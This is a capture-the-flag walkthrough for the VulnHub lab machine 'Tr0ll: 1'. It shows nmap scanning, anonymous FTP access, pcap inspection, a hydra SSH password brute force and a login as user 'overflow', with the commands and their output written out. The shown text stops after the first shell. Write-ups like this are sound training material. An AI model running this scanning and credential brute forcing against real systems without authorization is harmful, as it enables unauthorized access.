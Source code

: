 # Tr0ll: 1

## 1.Get VM IP

```bash
root@kali: nmap -sn 192.168.127.0/24

Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-17 06:57 EDT
Nmap scan report for 192.168.127.1
Host is up (0.00042s latency).
MAC Address: 00:50:56:C0:00:01 (VMware)
Nmap scan report for 192.168.127.141
Host is up (0.00032s latency).
MAC Address: 00:0C:29:1C:FD:35 (VMware)
Nmap scan report for 192.168.127.254
Host is up (0.00037s latency).
MAC Address: 00:50:56:EF:E6:A0 (VMware)
Nmap scan report for 192.168.127.128
Host is up.
Nmap done: 256 IP addresses (4 hosts up) scanned in 15.60 seconds
```

The ip address is `192.168.127.141`, let's enumerate it.

## 2.Enumeration

```bash
root@kali: nmap -sV -sC 192.168.127.141 -oN scan

Nmap scan report for 192.168.127.141
Host is up (0.00063s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.127.128
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 600
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxrwxrwx    1 1000     0            8068 Aug 10  2014 lol.pcap [NSE: writeable]
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 d6:18:d9:ef:75:d3:1c:29:be:14:b5:2b:18:54:a9:c0 (DSA)
|   2048 ee:8c:64:87:44:39:53:8c:24:fe:9d:39:a9:ad:ea:db (RSA)
|   256 0e:66:e6:50:cf:56:3b:9c:67:8b:5f:56:ca:ae:6b:f4 (ECDSA)
|_  256 b2:8b:e2:46:5c:ef:fd:dc:72:f7:10:7e:04:5f:25:85 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/secret
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.7 (Ubuntu)
MAC Address: 00:0C:29:1C:FD:35 (VMware)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

visit `/robots.txt` of the web page and it shows a disallowed directory :

```text
User-agent:*
Disallow: /secret
```

visiting the above directory has nothing interesting, we take a look at port `21` for `anonymous` login :

```bash
root@kali: ftp 192.168.127.141

Connected to 192.168.127.141.
220 (vsFTPd 3.0.2)
Name (192.168.127.141:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||54900|).
150 Here comes the directory listing.
-rwxrwxrwx    1 1000     0            8068 Aug 10  2014 lol.pcap
226 Directory send OK.
ftp> 
```

we find from here that file `lol.pcap` is available to download, so download and open it with wireshark

filter for `ftp-data` and you will find the packet wihch contains the secret directory :

![wireshark](https://github.com/Git-K3rnel/VulnHub/assets/127470407/556e5be5-5371-4f56-aafc-d4f58dff2da1)

just go to `sup3rs3cr3tdirlol` directory and there is file here called `roflmao` :

![download](https://github.com/Git-K3rnel/VulnHub/assets/127470407/56f7a830-c9af-4f5f-b2f5-85fd70b04fd7)

get this file and we notice this an executable, just run the program :

```bash
root@kali: ./roflmao

Find address 0x0856BF to proceed
```

it just prints a address of memory, since we have no program here that this executable knows the location already, i guessed

that it might me the actual directory we should navigate in the web site so go to `/0x0856BF` :

![directory](https://github.com/Git-K3rnel/VulnHub/assets/127470407/10cd92b7-4704-48c5-a92e-e5df417f47de)

download the files in these two folders :

```bash
root@kali: wget http://192.168.127.141/0x0856BF/good_luck/which_one_lol.txt

root@kali: wget http://192.168.127.141/0x0856BF/this_folder_contains_the_password/Pass.txt
```

inside the `which_one_lol.txt` file we see a list of users :

```txt
maleus
ps-aux
felux
Eagle11
genphlux
usmc8892
blawrg
wytshadow
vis1t0r
overflow
```

and inside `Pass.txt`, it just says `Good_job_:)`

## 3.Gaining Shell

i tried brute forcing the ssh with `Good_job` password but it did not work.

since it is just a crazy and ridiculous machine, i though that the folder `this_folder_contains_the_password` in the web site

we found earlier points to the fact that the name of the file `Pass.txt` is the real password

so i used hydra against the SSH service with `Pass.txt` as the password  :

```bash
root@kali:  hydra -L users.txt -p Pass.txt 192.168.127.141 ssh -V

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-17 07:29:08
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 10 tasks per 1 server, overall 10 tasks, 10 login tries (l:10/p:1), ~1 try per task
[DATA] attacking ssh://192.168.127.141:22/
[ATTEMPT] target 192.168.127.141 - login "maleus" - pass "Pass.txt" - 1 of 10 [child 0] (0/0)
[ATTEMPT] target 192.168.127.141 - login "ps-aux" - pass "Pass.txt" - 2 of 10 [child 1] (0/0)
[ATTEMPT] target 192.168.127.141 - login "felux" - pass "Pass.txt" - 3 of 10 [child 2] (0/0)
[ATTEMPT] target 192.168.127.141 - login "Eagle11" - pass "Pass.txt" - 4 of 10 [child 3] (0/0)
[ATTEMPT] target 192.168.127.141 - login "genphlux" - pass "Pass.txt" - 5 of 10 [child 4] (0/0)
[ATTEMPT] target 192.168.127.141 - login "usmc8892" - pass "Pass.txt" - 6 of 10 [child 5] (0/0)
[ATTEMPT] target 192.168.127.141 - login "blawrg" - pass "Pass.txt" - 7 of 10 [child 6] (0/0)
[ATTEMPT] target 192.168.127.141 - login "wytshadow" - pass "Pass.txt" - 8 of 10 [child 7] (0/0)
[ATTEMPT] target 192.168.127.141 - login "vis1t0r" - pass "Pass.txt" - 9 of 10 [child 8] (0/0)
[ATTEMPT] target 192.168.127.141 - login "overflow" - pass "Pass.txt" - 10 of 10 [child 9] (0/0)
[22][ssh] host: 192.168.127.141   login: overflow   password: Pass.txt
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-09-17 07:29:11
```

yes the user `overflow` has the password `Pass.txt` so we can login to SSH with these credentials.

```bash
root@kali: ssh overflow@192.168.127.141

overflow@192.168.127.141's password: 
Welcome to Ubuntu 14.04.1 LTS (GNU/Linux 3.13.0-32-generic i686)

 * Documentation:  https://help.ubuntu.com/

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Sun Sep 17 04:31:12 2023 from 192.168.127.128
Could not chdir to home directory /home/overflow: No such file or directory
$ id
uid=1002(overflow) gid=1002(overflow) groups=1002(overflow)
$ 
```













